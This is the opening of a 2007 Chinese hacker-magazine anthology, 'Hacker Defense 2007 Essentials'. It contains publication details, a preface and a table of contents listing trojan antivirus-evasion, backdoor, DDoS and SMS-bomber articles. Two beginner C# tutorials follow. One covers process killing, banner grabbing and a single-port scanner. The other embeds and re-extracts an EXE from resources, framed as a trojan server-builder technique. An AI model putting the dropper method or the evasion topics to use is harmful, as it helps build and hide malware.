# 黑客防线2007精华本（上）

---

## 黑客防线 2007 精华奉献本（上册）

《黑客防线》编辑部 编

- 高危漏洞挖掘分析
- 木马免杀系统剖析
- 黑客编程高级指南
- 系统防护终极策略

- 50个高危系统漏洞底层分析！
- 150例流行黑客技术实战指南！
- 200篇黑客入侵事件剖析！
- 1200MB黑客技术经典操作视频盘点！


人民邮电出版社  
POSTS & TELECOM PRESS


《黑客防线》编辑部 编  
人民邮电出版社  
北京

## 图书在版编目（CIP）数据

《黑客防线》2007精华奉献本／《黑客防线》编辑部编。  
北京：人民邮电出版社，2007.1  
ISBN 978-7-115-15560-3

Ⅰ.黑… Ⅱ.黑… Ⅲ.计算机网络—安全技术  
Ⅳ.TP393.08

中国版本图书馆CIP数据核字（2006）第144844号

## 内容提要

《黑客防线2007精华奉献本》是国内最早创刊的网络安全类媒体之一《黑客防线》总第61期到第72期的精华文章摘要，杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上、下两册（本册为上册），并附带2张包含1200MB安全技术录像的光盘。收录的文章通俗易懂，图文并茂，在每个关键知识点和细节上还有详细的“小知识”“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻防、漏洞攻防、黑器攻防等，同时选取国内首创的“溢出研究”栏目中的精品文章，非常适合各层次读者学习！

本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

# 黑客防线2007精华奉献本（上册）

- 编：《黑客防线》编辑部
- 责任编辑：魏雪萍
- 出版发行：人民邮电出版社发行 北京市崇文区夕照寺街14号A座（100061）
- 读者热线：010-62145877
- 印刷：中煤涿州制图印刷厂
- 经销：全国各地新华书店
- 开本：782×1092 1/16
- 印张：36
- 字数：3800千字
- 2007年1月第1版 2007年1月北京第1次印刷

ISBN 978-7-115-15560-3／TP·5870  
全套（含上、下册）定价：39.00元（附两张光盘）

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。  
联系电话：010-62141446  E-mail：yougoubu@hacker.com.cn  
图文版权所有，未经同意不得转载、翻印。

## 致读者

黑客一词，源于英文 Hacker，原指热心于计算机技术、水平高超的电脑专家，尤其是程序设计人员，他们发现系统漏洞和各种程序错误，并设法修补这样的漏洞。从原来的定义来说，黑客无疑是网络中最让人觉得神秘且崇高的人群。但世界上没有绝对好的东西，黑客也是这样。信息高科技时代的到来，给人类各方面发展都带来了前所未有的巨大进步，但同时也带来了前所未有的巨大灾难。黑客这一神秘群体，由于掌握了核心的技术、最有破坏力的漏洞，所以渐渐分离出来两个部分，一部分是为网络安全而奉献精力的真正黑客，而另一部分是在网络上为所欲为，拥有强大破坏力，行踪神秘的 Cracker！

我国互联网业界风起云涌，网络从最初的新奇，到今弥散到人们的日常生活，它改变了传统的信息消费渠道，抢占了新闻受众，影响着大众舆情……面对汹涌而来的信息浪潮，网络的脆弱性也在经受着无数黑客、Cracker 的一次次考验和打击。面对这样的转变，为了向广大网友普及网络安全常识，提高网络管理员的技术水平，《黑客防线》应运而生——一本崭新的集网络安全专业技术、专业资讯为一体的专业杂志面世了。

作为中国最早的网络安全类杂志之一，已经历了6年的风风雨雨。一直以“在攻与防的对立统一中寻求突破”为理念的我们，在普及网络安全知识的同时，针对网络上黑客攻击事件、网络漏洞等方面策划出最快、最新、最权威的技术文章奉献给大家。同时也以为“黑客”正名为己任，告诉我们的每个读者什么是真正的黑客，什么是黑客精神，什么是 Cracker。

在黑客防线成长的过程中，通过我们不断推出的攻防实验室，非常多的朋友学习到了很多实用的网络安全攻击、防御知识，虽然不可避免地存在一些缺陷，但我们一直在积极地听取大家的意见，希望能更适合大家的要求。同时，很高兴地看到大家通过实验室而让技术水平得到提高，而且每个朋友的成长几乎都能带动周围一圈人意识的改变，这样才真正地体现出了“攻防对立统一”的精髓。

眼下互联网上的攻击事件越来越多，各大网络管理员、系统维护者都在为入侵防护而头疼，生怕自己一不小心就让虎视眈眈的“黑客”进入了服务器。其实管理员们根本没必要这样担惊受怕。要知道任何攻击技术都不是万能的，每种入侵方法都有它自己针对的漏洞，如果网管们能掌握这样的攻击技术，本身就是一名出色的善意“入侵者”，那在知己知彼的情况下，防护不就变得非常简单了吗？这也是《黑客防线》一直倡导的“在攻与防的对立统一中寻求突破”理念的最终体现。

我们的攻防实验室就是为了深入这一理念而开展活动的，希望每个喜欢入侵技术、每个喜欢安全技术的朋友都能在我们的实验室中学到自己需要的知识。在此前提下，根据各读者的强烈建议，我们特别精选了200篇经典攻防技术文章，收集了200个全程演示的攻防录像，融合在《黑客防线 2007 精华奉献本》里，以便喜欢黑客技术的朋友们系统地学习最新的网络安全技能，做好最强的防护系统。

最后，我们再次感谢广大读者对我们的支持，感谢人民邮电出版社同我们的合作，使更多读者可以看到我们的图书，让国内更多的人了解到黑客技术，并借此来提高国内网络安全的整体水平。

读者有任何疑问可以来我们论坛发帖讨论，地址是 http://www.hacker.com.cn/newbbs，我们的编辑和黑客爱好者们将在第一时间为您答疑，帮助您解决安全故障和系统防护问题，共同创造一片纯净的中国互联网空间！

## 黑客防线2007精华奉献本目录（上册）

### 编程解密术

- 用C#写经典小工具 …… 1
- C#实现从自身资源提取EXE …… 4
- 自己写汉诺塔游戏 …… 5
- 网络执法官核心技术初探（上）…… 8
- 网络执法官核心技术初探（下）…… 11
- 珠联璧合再探API拦截技术 …… 14
- Linux下UDP后门的Socket编程 …… 16
- C#版IIS守护者 …… 19
- 疯狂程序员编写DNS DDOS工具 …… 21
- 被盗号者的反击 …… 23
- 如虎添翼给嗅探器加上数据还原！…… 26
- 循序渐进制作任务管理器 …… 31
- 让你的木马藏得更深——线程注射技术新发展（上）…… 35
- 用C#编写网页木马 …… 39
- 用VBS打造Kangen病毒专杀工具 …… 40
- Win32汇编木马初探 …… 41
- 让你的木马藏得更深——线程注射技术新发展（下）…… 44
- JavaScript写外挂 …… 46
- 隐蔽的木马启动方法 …… 48
- 捆绑任意可执行文件做木马 …… 50
- 穿过防火墙的Shell后门 …… 53
- 护马技——用CreateFile保护木马 …… 55
- 轻松编写端口重定向程序 …… 56
- 我的系统这样防护——C#编写IP_MAC防欺骗程序 …… 58
- 自写木马服务端 …… 60
- 为任意EXE插入SplashScreen …… 61
- C#实现文件加密 …… 63
- 自编后台猜解和文件探测程序 …… 64
- 线程注入技术新发展遗补 …… 66
- 狂刷百度空间访问量 …… 70
- Message Hook攻与防 …… 72
- 编程打造CmdShell客户端 …… 76
- POST提交实现ASP网站收信 …… 79
- 动态链接库的编写与应用 …… 80
- 将百度空间玩到底 …… 82
- 百度搜索，你是我的红娘 …… 86
- VC实现端口复用木马 …… 88

### 黑客攻防

- 文件格式想变就变——xxxTOxxx系列工具简介 …… 92
- U盘窃密大曝光 …… 95
- 整蛊QQ盗者 …… 96
- 武装FireFox …… 97
- 今年流行SQLShell——巧用MSSQL扩展存储做后门 …… 98
- CIA——追求完美而具现化的木马 …… 100
- 改造灰鸽子 …… 105
- 瞬间免杀 …… 107
- 灰鸽子特征码的简单修改 …… 108
- 小菜也来玩免杀 …… 110
- 病毒活用之意识流 …… 111
- VIP会员学习成果展 黑防专版鸽子定位之江民免杀 …… 112
- VIP会员学习成果展 SMI的挂马与免杀 …… 114
- 打造免杀版MT …… 115
- 卡巴复合特征码下的免杀 …… 116
- VIP会员学习成果展 黑防专版鸽子定位之卡巴免杀 …… 118
- 实战免杀梦幻西游木马 …… 120
- VIP会员学习成果展 灰鸽子2006服务端免杀 …… 121
- 异军突起：CNNSC远程控制 …… 122
- VIP会员学习成果展 免杀上兴木马 …… 124
- 冰刃木马天敌 …… 126
- 掏出KV的“心”——KV2006内存杀毒模块分离 …… 128
- 黑防鸽子免杀再分析 …… 130
- 菜鸟也要自己做永不过期短信炸弹 …… 132
- 对ASP木马免杀的研究 …… 133
- 木马免杀原理详解 …… 137
- 为木马披上羊皮——Fake Ninja …… 140
- VIP会员学习成果展 打造无壳版本马 …… 142
- 长效短信炸弹再度归来 …… 143
- 让《百变宣传尾巴》直接生成无壳的服务 …… 144
- VIP会员学习成果展 非黑客软件“黑客化”打造永不被查杀的FTP后门 …… 145
- 让木马在网络中现形 …… 148

### 网管之家

- BT流量对校园网络造成的影响及其对策 …… 152
- IBSS架构实验 …… 154
- 解决中国博客网BCUP进程问题 …… 156
- Firefox插件漫谈 …… 158
- 恶意邮件如何共享你的硬盘 …… 159
- 让网上邻居支持SSL/TLS安全传输 …… 161
- 为IIS找一位“贴身警卫” …… 163
- 使用802.1x协议实现局域网安全访问 …… 166
- 利用三层交换机实现DHCP中继代理 …… 168
- 揭穿虚拟主机奸商的骗局 …… 170
- VIP会员学习成果展 轻松玩转系统恢复 …… 172
- Windows下的安全文件传输 …… 173
- VIP会员学习成果展 打造一键FTP服务器 …… 175
- 数字签名在企业VLAN中的实现 …… 176
- FTP搜索也疯狂 …… 178
- 利用SDM实现对Cisco系列路由器的可视化管理 …… 180
- 无线网络攻防 …… 182
- 快速将动态网站转化为静态网站 …… 184
- 基于Cisco交换机园区网络的访问控制 …… 185
- VIP会员学习成果展 一分钟破解方案 …… 187
- 斩断非法进程的“黑手” …… 189
- 终端下的文件传输之道 …… 191
- 网吧免费新思路——Windows防锁专家 …… 193
- 未雨绸缪——微点主动防御 …… 194
- 牧马者，你的马还能跑吗？…… 196
- ISA2004的企业VPN部署 …… 198

### 破解导航

- 赛点网络宣传邮箱版2.03脱壳破解经过 …… 204
- 浅析逆向工程应用——添加菜单 …… 206
- ESP定律轻脱动易组件观壳 …… 209
- 在Windows XP中的万能断点 …… 211
- OllyDbg VS SoftICE 用户级程序调试秘笈 …… 214
- 破解易语言非独立编译程序——实战《飓星电脑侍卫》反调试篇 …… 217
- VIP会员学习成果展：制作免杀版黑防灰鸽子 …… 219
- 刺探“外挂制作学习环境” …… 221
- 从UltraProtect到ACProtect——反调试技术回顾与透视 …… 224
- 巧破DLL To Lib …… 230
- 软件加密漏洞剖析——兼谈ASProtect脱壳技术（上）…… 232
- 软件加密漏洞剖析——兼谈ASProtect脱壳技术（下）…… 237
- 挑战“从来都没有人能破解”的冰点 …… 239
- MD5的Keygenme分析 …… 242
- 轻松搞定搜索引擎工厂 …… 246
- 查杀免杀木马 …… 247
- 软件保护中MD5算法的另类应用 …… 248

## 用C#写经典小工具

Socket：有几个读者发来消息说想有C#类的文章，这次让大家得偿所愿。用C#做东西感觉还蛮容易。

适合读者：入侵爱好者，C#爱好者  
前置知识：C#基础



文/图 ngaut.

《黑客防线》杂志上有人提到C#在网络安全方面的问题，于是我赶紧把自己的一些心得写下来与大家分享。很明显，用C#来写木马之类的东西是不现实的，因为存在以下缺点：生成的可执行程序太大、速度慢。当然了，最大的缺点是需要 .NET 运行库……不过不要伤心，C#用来开发简单的扫描器和系统自身的安全管理以及窃链等还是有用武之地的。下面我们先从最经典的进程管理开始。

C#提供给我们强大而便捷的 Process 类，使我们的开发更容易、更方便。这对于编写高效、快速的应用程序是非常有帮助的。考虑到很多穷人无力购买昂贵的 Microsoft Visual Studio .NET 2003，我花了点时间读了 SharpDevelop 的文档，并且安装测试了 SharpDevelop，这是个免费精致的C# IDE。

按照标准文档安装不成功或程序启动出错，请运行 SharpDevelop\bin\setup 目录下的 PostInstallTasks.bat。因为 SharpDevelop 对中文的支持太差，我用的版本都是乱码，所以有些注释是用英语写的……如果大家遇到不清楚的地方请查阅 MSDN。

```csharp
// 输出所有进程信息
foreach (Process thisProc in allProcess)
{
    string procName = thisProc.ProcessName; // 进程名
    int procID = thisProc.Id;               // 进程ID
    Console.WriteLine("Process: {0}, ID: {1}", procName, procID);
}
Console.ReadLine(); // 暂停程序
```

运行结果如图1所示。



##### 杀死指定进程

杀死进程之前你总要列出系统进程吧，代码很简单。程序运行结果如图2所示。



##### 列出所有进程

写出属于自己的 Pslist，非常的简单……比C语言方便多了。

```csharp
// 环境说明略
using System;
using System.Diagnostics;

class listProcess
{
    public static void Main()
    {
        Console.WriteLine("Process information:");
        Process[] allProcess = Process.GetProcesses();
        Console.WriteLine("Process count:{0}", allProcess.Length);
    }
}
```

```csharp
using System;
using System.Diagnostics;

class ManageProcess
{
    // List All Processes
    private void ListAllProcess()
    {
        Console.WriteLine("Process information:");
        Process[] allProcess = Process.GetProcesses();
        foreach (Process thisProc in allProcess)
        {
            string processName = thisProc.ProcessName;
            int processID = thisProc.Id;
            Console.WriteLine("Process: {0}, ID: {1}", processName, processID);
        }
    }
}
```

```csharp
// Kill specific Process
private void KillProcess(string processName)
{
    try
    {
        Process[] thisproc = Process.GetProcessesByName(processName);
        // thisproc.Length: 名字为该进程总数
        // Process found!
        if (thisproc.Length > 0)
        {
            for (int i = 0; i < thisproc.Length; i++)
            {
                if (thisproc[i].CloseMainWindow())
                {
                    thisproc[i].Kill();
                }
                Console.WriteLine("process {0} has been killed", processName);
            }
        }
        else
        {
            Console.WriteLine("process {0} not found!", processName);
        }
    }
    catch
    {
        Console.WriteLine("kill process {0} faild!", processName);
    }

    Console.ReadLine();
}

public static void Main()
{
    ManageProcess process = new ManageProcess();
    process.ListAllProcess();
    Console.Write("Enter the process Name that you want to kill: ");
    string procName = Console.ReadLine();
    process.KillProcess(procName);
}
```

```csharp
// winxp + SharpDevelop 1.0.3.1768
// winxp + Microsoft Visual Studio .NET 2003 测试通过

// DownloadData() 函数原型 public byte[] DownloadData(string address);
// 作用: Downloads data from a resource with the specified URI.
using System;
using System.IO;
using System.Net;
using System.Text;

class GetWebSourceCode
{
    public static void Main()
    {
        string remoteUrl;
        Console.WriteLine("Please input the URL:");
        remoteUrl = "http://" + Console.ReadLine();

        WebClient myWebClient = new WebClient();
        Console.WriteLine("Downloading " + remoteUrl);

        try
        {
            byte[] myDataBuffer = myWebClient.DownloadData(remoteUrl);
            string download = Encoding.ASCII.GetString(myDataBuffer);
            Console.WriteLine(download);
            Console.ReadLine();
        }
        catch
        {
            Console.WriteLine("sorry, The URL address is invalid!!");
            Console.ReadLine();
            return;
        }
    }
}
```

第二种方法的主要函数是 OpenRead()，也很简单，限于篇幅关系请大家看光盘上代码。

### 取得指定URL的源代码



我知道的方法有两种，下面是第一种，程序运行结果如图3所示。

图3

### 取得远程Web服务器类型

通过 HTTP ResponseHeaders 取得远程Web服务器类型，程序运行结果如图4所示。探测结果显示 Google 用的是 GWS/2.1，而我们用的是 IIS/5.0。基本原理是通过分析 HTTP Response Headers，取得其中的 server 信息。



图4

```csharp
// 取得远程 Web 服务器类型
using System;
using System.Net;
using System.Text;

namespace GetRemoteServerType
{
    class GetRemoteServerType
    {
        public static void Main()
        {
            Console.WriteLine("Please input the URL or ip address:");
            string remoteUrl = "http://" + Console.ReadLine();
            WebClient myWebClient = new WebClient();
            try
            {
                byte[] myDataBuffer = myWebClient.DownloadData(remoteUrl);
            }
            catch
            {
                Console.WriteLine("The URL address is invalid or an error occurred while downloading data");
                Console.ReadLine();
                return;
            }

            WebHeaderCollection myWebHeaderCollection = myWebClient.ResponseHeaders;
            Console.WriteLine("\nDisplaying the Server:\n");
            for (int i = 0; i < myWebHeaderCollection.Count; i++)
            {
                if (myWebHeaderCollection.GetKey(i) == "Server")
                {
                    Console.WriteLine("\t" + myWebHeaderCollection.GetKey(i) + ": " + myWebHeaderCollection.Get(i));
                    break;
                }
            }
            Console.ReadLine();
        }
    }
}
```

也不能用，也没有提供服务。这个技术的一个最大的优点是不需要任何权限，系统中的任何用户都有权利使用这个调用。

另一个好处就是速度快。如果对每个目标端口以线性的方式使用单独的 Connect() 调用，那么将会花费相当长的时间。可以同时打开多个套接字，从而加速扫描；使用非阻塞 I/O，允许设置一个低的时间用尽周期，同时观察多个套接字。

这种方法的缺点是很容易被发现，从而被过滤掉。目标计算机的 Logs 文件会显示一连串的连接和连接时出错的服务消息，并且能很快地使它关闭。

有了原理做事就比较容易了。至少方向是对的，程序是使用 C# 提供的 TcpClient 类来实现的。

```csharp
// sample port scanner
using System;
using System.Net;
using System.Net.Sockets;

class portScanner
{
    public static void Main()
    {
        Console.WriteLine("Start scanning...");
        int port = 21;
        Console.WriteLine("Please input the URL or ip address:");
        string server = Console.ReadLine();
        try
        {
            TcpClient client = new TcpClient(server, port);
            Console.WriteLine("{0} port:{1} is Opened!!!", server, port);
            client.Close();
        }
        catch (SocketException e)
        {
            Console.WriteLine("{0} port:{1} is not Opened!!", server, port);
            Console.WriteLine("SocketException: {0}", e);
            Console.Read();
        }
    }
}
```

#### 简单的端口扫描

一般的端口扫描的原理其实非常简单，只是简单地利用操作系统提供的 Connect() 系统调用，与每一个感兴趣的目标计算机的端口进行连接。如果端口处于 Listen 状态，那么 Connect() 就能成功；否则，这个端口不能用，也没有提供服务。

#### 简单的蜜罐

这个也比较简单，因为是简单的蜜罐，所以只显示 Listen 的数据就可以了。这里就不再继续介绍了，留给大家做吧，呵呵。

PS：为了这篇文章，花了一个星期的时间，写完的时候觉得自己好累了，文笔不好还请多见谅。

由于我没有自己的电脑，编程和写文章的时间都是蹭来的。其实仔细想想编程真的不是很难，我们这样的菜鸟也可以编程。希望大家在创造自己工具时一路走好，能有更多的朋友提供更好的意见和建议。

适合读者：C# 程序员，木马爱好者  
前置知识：无

#### C# 实现从自身资源提取 EXE


文／程晟

很多木马都有生成服务端的功能，即从自身的 EXE 文件再生成一个新的 EXE 文件。我在网上翻了翻代码，VB 和 VC++ 有很多方法实现。可是一直没有找到 C# 的，可能是 C# 编写木马不实用，因为大多数系统必须先安装微软的 .NET Framework 才能运行 C# 程序。然而笔者认为再过几年以后，随着微软新系统的推出，C# 木马必然会辉煌起来，所以懂得如何自身生成 EXE 文件还是有必要的。

在实现这个功能的同时，我再把 C# 是如何从资源中提取图片和字符串的代码一并写出来。

##### 第一步：建立一个资源文件

- 1. 新建一个控制台应用程序项目，在 Class1.cs 开头加上：

```csharp
using System.Drawing;
using System.Drawing.Drawing2D;
using System.Drawing.Imaging;
// 以上部分实现用图片文件所必须添加的
using System.Resources;
using System.IO;
```

- 2. 在主函数中加上：

```csharp
// 声明对象，将资源存入 MyResources.resources 文件中
System.Resources.ResourceWriter rw = new System.Resources.ResourceWriter("MyResources.resources");
// 声明读取一个二进制文件。
...
rw.AddResource("Myexe", bytes);
rw.AddResource("MyPic", Img);
string Mystr = "I love China.";
rw.AddResource("MyString", Mystr);
rw.Close();
```

> 小贴士：这里的 27136 为要读取 EXE 文件的字节数，可以用鼠标右键调出文件属性查看，也可以写得更智能一些，让程序自动读出字节数。

```csharp
// filename.exe 是你读取的 EXE 文件名。
FileStream fs = File.Open("filename.exe", FileMode.Open);
BinaryReader br = new BinaryReader(fs);
byte[] bytes = new byte[27136];
br.Read(bytes, 0, 27136);
fs.Close();
...
```

```csharp
string Mystr = "I love China.";
rw.AddResource("MyString", Mystr);
rw.Close();
// 将编译后的程序和 filename.exe 及 temp.jpg 放入同一子目录运行就可以得到资源文件：MyResources.resources
```

##### 第二步：从资源文件中提取资源

- 1. 新建一个 Windows 应用程序项目，添加一个 PictureBox 控件来放图片（设 Name 为 pictureBox），再加几个按钮控件。

在 Form1.cs 开头加上：

```csharp
using System.Resources;
using System.Reflection;
using System.IO;
```

- 2. 在主函数中加上：

```csharp
// 通过反射得到资源程序集
System.Reflection.Assembly asm = Assembly.GetExecutingAssembly();
// 初始化资源管理对象
ResourceManager rm = new ResourceManager("ResourceConsumer.MyResources", asm);
```

- 3. 在相应的按钮控件处理函数中添加：

```csharp
// 从资源中读取 EXE 文件并还原
private void button1_Click(object sender, System.EventArgs e)
{
  FileStream fs = File.Open("filename.exe", FileMode.Create);
  byte[] bytes = new byte[27136];
  bytes = (byte[])rm.GetObject("Myexe");
  BinaryWriter bw = new BinaryWriter(fs);
  bw.Write(bytes);
  fs.Close();
}

// 从资源中提取图片并显示
